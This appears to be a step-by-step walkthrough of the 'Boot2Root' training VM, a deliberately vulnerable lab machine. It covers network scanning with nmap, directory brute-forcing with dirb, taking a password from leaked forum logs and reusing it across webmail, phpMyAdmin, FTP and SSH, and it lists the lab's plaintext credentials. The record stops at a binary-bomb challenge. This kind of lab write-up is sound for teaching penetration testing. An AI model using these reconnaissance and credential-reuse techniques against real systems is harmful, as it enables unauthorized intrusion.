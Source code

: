 # Boot2Root
This project is an introduction to the penetration of a system.

--------------------------------------------------------------------------

Step by step guide

--------------------------------------------------------------------------

## We need to fine the IP address of our VM

```ifconfig```

And get something like that:
```vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 192.168.152.1 netmask 0xffffff00 broadcast 192.168.152.255
```
(there may be more than 1 vm)

Then use nmap to scan this IP

```nmap 192.168.152.1-255```

And get

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-05 15:43 EET
Nmap scan report for 192.168.152.1
Host is up (0.00015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.152.130
Host is up (0.00083s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 255 IP addresses (2 hosts up) scanned in 28.91 seconds
```
Take the machine with the most open ports.
Our case is ```192.168.152.130```

## Looking for credentials

Install Dirb software
```
git clone https://github.com/v0re/dirb.git
cd dirb/
./configure
make
```
Scan our URL

```
./dirb https://192.168.152.130/ wordlists/common.txt

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Jan  5 15:53:37 2019
URL_BASE: https://192.168.152.130/
WORDLIST_FILES: wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.152.130/ ----
+ https://192.168.152.130/cgi-bin/ (CODE:403|SIZE:292)
==> DIRECTORY: https://192.168.152.130/forum/
==> DIRECTORY: https://192.168.152.130/phpmyadmin/
+ https://192.168.152.130/server-status (CODE:403|SIZE:297)
==> DIRECTORY: https://192.168.152.130/webmail/
```
phpmyadmin and webmail needs credentials.

## Forum

Research the forum and find 'Probleme login ?' topic, it's logs
Check who log in. Find this:
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```
we suppose that someone put password to login field and then, after couple seconds successfully loged in

So, we try this cred to login the forum ```lmezard/!q\]Ej?*5K5cy*AJ```

Boom! We're here!

## Webmail

We can find email address on foroum for webmail. It's ```laurie@borntosec.net```.

Try this email and same password. It's works!

In there we find the letter with "DB Access" title. And get credentials ```root/Fg-'kKXBj87E:aJ$``` from letter.


## phpMyAdmin

Use this credentials to login phpmyadmin and it's works!

```lmezard:G!@M6f4Eatau{sF"```

## ftp

```brew install inetutils```
```ftp [YOUR IP]```
use lmezard:G!@M6f4Eatau{sF" credentials

```
get fun
get README
bye
```

get the README and fun file.
```
Complete this little challenge and use the result as password for user 'laurie' to login in ssh

```

login is ```laurie```

fun file it's a archive.

``` tar xf fun ```

It's a lot files with code, written in C.

Try to concatinate it with script.```node crackFunFile.js```

Compile the code.

Get the result:
```
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
```

Use sha256 online generator and get: ```330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4```
## ssh

Try connect via ssh ```ssh root@IPaddress```. In out case is:
```
ssh laurie@172.16.69.129
```
What we get:
```
laurie@BornToSecHackMe:~$ ls -la
total 37
drwxr-x--- 1 laurie   laurie    80 Dec 23 18:27 .
drwxrwx--x 1 www-data root      60 Oct 13  2015 ..
-rwxr-x--- 1 laurie   laurie   432 Dec 23 18:30 .bash_history
-rwxr-x--- 1 laurie   laurie   220 Oct  8  2015 .bash_logout
-rwxr-x--- 1 laurie   laurie  3489 Oct 13  2015 .bashrc
drwx------ 2 laurie   laurie    43 Oct 15  2015 .cache
-rwxr-x--- 1 laurie   laurie   675 Oct  8  2015 .profile
drwx------ 2 laurie   laurie    60 Dec 23 18:28 .ssh
-rw------- 1 laurie   laurie   606 Oct 13  2015 .viminfo
-rwxr-x--- 1 laurie   laurie   158 Oct  8  2015 README
-rwxr-x--- 1 laurie   laurie 26943 Oct  8  2015 bomb
```

Get the files:
```
scp laurie@172.16.69.129:bomb .
scp laurie@172.16.69.129:README .
```

README file:
```
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```


